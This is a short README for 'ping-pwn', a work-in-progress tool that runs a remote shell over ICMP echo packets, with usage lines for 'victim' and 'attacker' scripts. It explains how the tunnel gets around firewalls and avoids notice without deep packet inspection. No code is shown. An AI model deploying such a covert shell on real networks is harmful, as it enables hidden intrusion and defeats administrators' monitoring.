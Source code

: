 # ping-pwn - ICMP Shell using ICMP tunnel
An ICMP tunnel (also known as ICMPTX) establishes a covert connection between two remote computers (a client and proxy), using ICMP echo requests and reply packets.

ICMP tunneling can be used to bypass firewalls rules through obfuscation of the actual traffic. Without proper deep packet inspection or log review, network administrators will not be able to detect this type of traffic through their network.

This is a work in progress

## Usage:
- Victim: ping.py <interface> <attacker IP>
- Attacker: pwn.py <interface> <victim IP>
